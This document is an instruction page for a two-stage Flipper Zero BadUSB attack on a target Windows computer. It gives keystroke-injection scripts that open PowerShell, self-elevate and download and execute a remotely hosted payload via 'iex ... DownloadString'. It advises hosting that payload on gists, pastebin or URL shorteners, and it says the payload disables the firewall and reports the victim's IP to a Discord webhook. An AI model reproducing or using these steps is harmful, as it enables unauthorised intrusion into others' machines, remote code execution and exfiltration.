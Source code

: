 # Flipper Zero Two-Stage Payload Instructions

We've created a two-stage approach to solve the keyboard layout and character issues with the Flipper Zero:

## How This Approach Works

1. **Stage 1 (Flipper Zero Script)**: A minimal script that opens PowerShell and downloads the main payload
2. **Stage 2 (Hosted PowerShell Script)**: The full WSL setup script that runs after being downloaded

This approach is much more reliable because it minimizes the amount of text the Flipper Zero needs to type directly.

## Setup Instructions

### 1. Host the PowerShell Script

First, you need to host the `wsl_setup.ps1` file somewhere publicly accessible:

**Option A: GitHub Gist**
1. Go to https://gist.github.com/
2. Create a new gist with the `wsl_setup.ps1` file content
3. Make the gist public and copy the "Raw" URL

**Option B: Pastebin**
1. Go to https://pastebin.com/
2. Paste the contents of `wsl_setup.ps1`
3. Set expiration to "Never"
4. Create the paste and copy the "raw" URL (add "/raw" to the end of the URL)

**Option C: Use a URL shortener**
1. After getting your raw URL from either method above
2. Go to a service like https://bitly.com/
3. Create a shortened URL that's easy to type (like "bit.ly/wsl-setup")

### 2. Update the Flipper Zero Script

Edit the `flipper_badusb_simple.txt` file to point to your hosted script:

```
# Update this line with your actual URL
STRING iex (New-Object Net.WebClient).DownloadString('YOUR_URL_HERE')
```

### 3. Load the Script on Your Flipper Zero

1. Connect your Flipper Zero to your computer
2. Open qFlipper
3. Navigate to SD Card/badusb/
4. Upload the `flipper_badusb_simple.txt` file

## Running the Attack

1. Plug your Flipper Zero into the target Windows computer
2. On the Flipper Zero, navigate to BadUSB app
3. Select the script and press the center button

The Flipper will:
1. Open PowerShell
2. Download and execute the full script from your hosted location
3. The script will self-elevate to admin, disable firewall, install WSL, etc.
4. The script will send the IP to your Discord webhook when complete

## Troubleshooting

If you still encounter issues:

1. **Check the URL**: Make sure your shortened URL works by testing it in a browser
2. **Try a simpler command**: If all else fails, try this simpler Flipper script:
   ```
   DELAY 3000
   GUI r
   DELAY 1000
   STRING powershell
   ENTER
   DELAY 2000
   STRING Start-Process powershell -Verb RunAs -ArgumentList "-Command iex (New-Object Net.WebClient).DownloadString('YOUR_URL_HERE')"
   ENTER
   ```

3. **Manual approach**: If automation fails, you can also:
   - Use the Flipper to just open PowerShell
   - Manually copy and paste the download command from a note on your phone 